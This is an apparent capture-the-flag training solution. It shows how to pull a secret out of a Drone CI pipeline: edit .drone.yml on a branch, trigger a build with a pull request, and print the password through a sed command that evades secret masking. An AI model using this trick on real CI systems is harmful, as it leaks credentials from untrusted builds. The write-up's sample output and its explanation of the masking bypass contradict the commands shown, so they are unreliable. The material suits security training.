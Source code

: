 # Report

## Welcomd to Empowering_DevOps_Security - Training

Solution to the training pipeline.
```yaml
## ----  Step 1  ------
kind: pipeline
type: docker
name: pipeline-1
## ----  Step 2  ------
steps:
  - name: python-1
    image: registry.devops.eds/python:buster
    commands:
        - pip install -r requirements.txt
        - python app.py
## ----  Step 4  ------
  - name: docker-using-environmental
    image: registry.devops.eds/docker:1
    commands:
        - sleep 3
        - docker login https://registry.devops.eds -u $USERNAME -p $PASSWORD
    environment:
      USERNAME:
        from_secret: USERNAME
      PASSWORD:
        from_secret: PASSWORD
  - name:
    image: regsitry.devops.eds/python:buster
    commands:
      python flag.py $FLAG
    environment:
      FLAG:
        from_secret: FLAG
## ----  Step 3  ------
services:
  - name: python-server
    image: registry.devops.eds/python:buster
    commands:
      - python python_server.py
```

## Get my credentials! - Solution
- You should first login in Gitea at `https://full-enormous-crow.ngrok-free.app` using your credentials
- Go to the repository `allen-leonard/Abberus` and open the file `.drone.yml`
- The flag is stored into the variable `$PASSWORD`. To get it we need to trigger the pipeline and let a drone runner execute a script that prints it in output. Since done protects the direct printing of the secrets we will circunvent the problem by not printing the password by all the characters of the password followed by the char `a`. This can be done by running the bash command ```- echo $(echo $PASSWORD | sed 's/./&x/g' | sed 's/x//g')```
- Modify the `.drone.yml` as follows:

```yaml
kind: pipeline
type: docker
name: default
steps:
- name: backend
  image: python:buster
  commands:
  - pip install --upgrade setuptools
  - pip install --upgrade pip
  - make deps
- name: dockerPush
  image: docker:latest
  commands:
  - echo $(echo $PASSWORD | sed 's/./&w/g' | sed 's/w//g')
  environment:
    PASSWORD:
      from_secret: docker_password
    USERNAME:
      from_secret: docker_username
    when:
      branch:
      - mybranch
      event:
      - push
      - pull_request
```

The two changes are related to the command to execute (after the `commands` keyword) and the branch name.
- Save this as a new branch called mybranch
- To trigger to the pipeline you have to create a pull request to merge the new branch into main.
- This will trigger the building using the mybranch pipeline. Now, going into the drones at `https://drone.devops.eds` (possibly after autorizing it using the normal user credentials) you should see that a build has been trigger and if you open it at the dockerPush step you should see the password printed like `EaDaFa{atauatauarajagakajafa}a`
- The sed command needs to create a "new" string for it to be printed out in the terminal. Otherwise the drone runner will recognize the secret and hide it.
Therefore a command like this: `- echo $(echo $PASSWORD | sed 's/./&o/g' | sed 's/o//g')` will show ****** because there is no "o"'s in the flag string where 
`- echo $(echo $PASSWORD | sed 's/./&w/g' | sed 's/w//g')` will because there is a w in the flag string. Although if you the w's in the string you might also remove some you'll need for the flag.
### Flag: EDS{h1ding_b3h1nd_a_pUll_r3quest_wa7_n0t_3n0ugh}



## Peons will do what they are told.
